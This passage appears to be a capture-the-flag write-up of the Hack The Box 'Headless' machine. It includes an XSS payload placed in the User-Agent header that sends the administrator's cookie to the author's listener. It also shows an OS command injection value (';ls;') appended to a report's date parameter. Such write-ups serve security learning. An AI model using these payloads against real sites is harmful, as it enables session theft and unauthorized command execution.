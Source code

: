 - dashboard page which sets out cookies with user parameter and unauthorizes us.
    - ![dashboard page](https://raw.githubusercontent.com/cyb3ritic/images/refs/heads/master/htb/machines/headless/dashboard.jpg)
    - ![cookie issue](https://raw.githubusercontent.com/cyb3ritic/images/refs/heads/master/htb/machines/headless/cookie_issue.jpg)



## Vulnerability Assessment

Support page with input fields caught my interest, so, I started testing the input fields manually.
- First tried for SQL injection, I gave single quote(') and double quotes(") as input to every input fields, but there was no any suspicious response.
- Then I tried for XSS. I gave `<XSS>` (word XSS wrapped in angular bracket) as input and I got a suspisious looking message, which means the app is vulnerable to XSS.
    - ![suspicious message](https://raw.githubusercontent.com/cyb3ritic/images/refs/heads/master/htb/machines/headless/sus_response.jpg)

The message said that hacking attemp was detected so a report with my browser information was sent to administrator. 

### Building strategy
Now it's time to build some strategy. Here our browser information is being sent to administrator, and our browser information is stored in User-Agent header. So, if we set/embed our payload in User-Agent header by using burpsuite, our payload is gonna reach the administrator. 

But what will we do after reaching to administrator?

Absolutely right, we are not able to fetch dashboard page because our cookie is set with some "user" parameter value. If we fetch the cookie of administrator and did some cookie tampering in dashbord page, we migh be able to get the dashboard page.

## Exploitation

First I started a http server using command `python -m httpserver`. It started a server on my ip on port 8000. I intercepted the request using burp and edited the User-Agent header with my payload:
```html
<!-- payload -->
<svg onload='fetch("http://my_ip:port/" + document.cookie)>
```
and sent the request. Within 5-6 seconds I recieved message with admin's cookie in my terminal.
![obtaining admin cookie](https://raw.githubusercontent.com/cyb3ritic/images/refs/heads/master/htb/machines/headless/obtaining_cookie.jpg)

Now, using the admin cookie lets try to access the dashboard page and Voilà we got the administrator dashboard.
![accessed administrator dashboard](https://raw.githubusercontent.com/cyb3ritic/images/refs/heads/master/htb/machines/headless/accessed_dashboard.jpg)

Here we have option to generate report from the dashboard. Let's generate the report and intercept the request.
![generating report](https://raw.githubusercontent.com/cyb3ritic/images/refs/heads/master/htb/machines/headless/generate_report.jpg)

Date parameter is sent using post request. So there could be the possibility of OS command injection if inputs are not validated properly.
- first attemp, I concatenated the date parameter with `;ls` but didnot get expected result.
- second try, then  I modified my payload as `;ls;` then I got the output exactly what I wished for 😍.
![command injection worked!](https://raw.githubusercontent.com/cyb3ritic/images/refs/heads/master/htb/machines/headless/command_injection.jpg)
